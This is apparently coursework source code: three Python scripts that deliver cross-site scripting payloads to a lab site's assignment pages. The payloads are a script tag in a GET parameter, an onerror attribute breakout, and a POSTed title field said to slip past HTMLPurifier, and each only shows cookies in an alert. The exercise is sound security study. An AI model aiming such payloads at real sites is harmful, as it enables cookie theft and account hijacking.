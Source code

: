 

```python
cat  case12.py
#!/usr/bin/env python3
# exploit payload in GET
import urllib.parse

payload = {'searchterm' : '<script>alert(document.cookie)</script>'}
enc_payload = urllib.parse.urlencode(payload)

url_2 = 'http://www.wsb.com/Assignment2/case12.php?' + enc_payload

import webbrowser
#open in new window
webbrowser.open(url_2, new=2)
```



```python
cat  case15.py
#!/usr/bin/env python3
# exploit onerror javascript tag https://stackoverflow.com/questions/116967/img-src-tags-and-javascript
import urllib.parse

payload = {'videourl' : 'artem" onerror="javascript:alert(document.cookie)' }
enc_payload = urllib.parse.urlencode(payload)

url_2 = 'http://www.wsb.com/Assignment2/case15.php?' + enc_payload

import webbrowser
#open in new window
webbrowser.open(url_2, new=2)
```



```python
cat  case19.py
#!/usr/bin/env python3
# same as "case04" and also we specifically target "title" field that is not checked by HTMLpurify

import urllib
import urllib.parse
import urllib.request

# do POST to the form
url_2 = 'http://www.wsb.com/Assignment2/case19.php'
# prepare the value of the form which includes the attack payload
values = dict(title='Exploit... <script>alert(document.cookie)</script>)', content='here i come' )
data = urllib.parse.urlencode(values)
#submit the form
req = urllib.request.Request(url_2, data.encode('utf-8'))
rsp = urllib.request.urlopen(req)
#read the return result
content = rsp.read()

import webbrowser
url = "http://www.wsb.com/Assignment2/case19.php"
new = 2 #open in new window
webbrowser.open(url,new=new)
```
